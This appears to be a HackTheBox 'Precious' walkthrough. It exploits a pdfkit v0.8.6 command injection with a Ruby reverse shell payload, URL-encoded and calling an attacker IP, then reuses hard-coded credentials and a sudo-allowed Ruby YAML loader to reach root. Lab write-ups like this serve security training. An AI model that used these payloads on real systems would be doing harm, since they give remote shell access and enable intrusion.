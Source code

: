 ```yaml
---
title: "HackTheBox Precious" 
date: 2022-12-03T21:07:49+01:00
draft: false
---
```


Exploit Universal RCE with Ruby YAML.load (versions > 2.7) to gain a reverse shell then
grab hard-coded credentials for a user that has root permissions to run ruby script that lead
to root.
<!--more-->


## **Nmap**

We don’t change good habits and start with nmap scan : 

```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-03 21:22 CET
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.85 seconds
```

Only two ports open `ssh:22` and `http:80`. (Don't forget to add precious.htb to your hosts file).

## **HTTP:80**

![image text](/precious_htb_web_page.png)

At first sight it's a simple web page to pdf converter. \
start a simple python web server and convert our web page to pdf while capturing the request 
with burpsuite :

![image text](/to_pdf_precious_htb.png)
It seems to work fine let's see what's running behind with burpsuite.

![image text](/first_capture_burpsuite.png)

The website is doing a POST request to the root with our url parameter \ 
send the request to repeter and catch the response : 

![image text](/second_capture_burpsuite.png)

We see and bunch of informations looking at the end an interesting info
alerts me : 
![image text](/third_capture_burpsuite.png)

`Generated by pdfkit v0.8.6`. If we search for pdfkit v0.8.6 exploit, a  **[CVE](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)** that lead
to a command injection. Great let's exploit It !

## **Shell as ruby**
By following the POC : ``http://example.com/?name=#{'%20\`sleep 5`'}``
Trying the command sleep worked for me but now how could we manage to 
get a reverse shell ? \
I thought about replace sleep 5 by a bash reverse shell but I didn't works then 
I remembered that the `X-Runtime` Header was Ruby so instead of generate a bash reverse shell 
I could generate a ruby reverse shell : 

```
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("IP",PORT))'
```

Insert the payload in the url parameter in burpsuite, start a netcat listenner and the request  :

```
url=http://10.10.14.233/?name=#%7B%27%2520%60ruby+-rsocket+-e%27spawn(%22sh%22,[%3ain,%3aout,%3aerr]%3d%3ETCPSocket.new(%2210.10.14.233%22,6666))%27%60%27%7D
```
Within a second a connection should be established to your netcat ! 

```
┌──(kali㉿kali)-[~]
└─$ rlwrap nc -lnvp 6666                 
listening on [any] 6666 ...
connect to [10.10.14.135] from (UNKNOWN) [10.10.11.189] 39510
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## **From ruby to henry**
by dive in ruby's home directory we see an unsual directory named : .bundle.
This directory contains a config file with hard-coded credentials for henry use.
Let's try these credentials with ssh : 

```
┌──(kali㉿kali)-[~/Documents/htb/playground]
└─$ ssh henry@precious.htb         
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Dec  4 06:02:19 2022 from 10.10.16.50
henry@precious:~$ 
```

From there we can grab the user flag.

## **Root**

The root part was easy (too much easy) \
`sudo -l` shows us that henry can run a ruby script with root privileges : 

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

The `update_dependencies.rb` file load a yaml file (unfortunately some people had fun deleting the file at the time I'm writing this ) in this yaml 
file we could specify a bash reverse shell, just replace the actual reverse shell with yours and` execute the ruby file with sudo`.
Once the file is executed a reverse shell as root should be established.
**Congratz !!! Precious as been rooted**.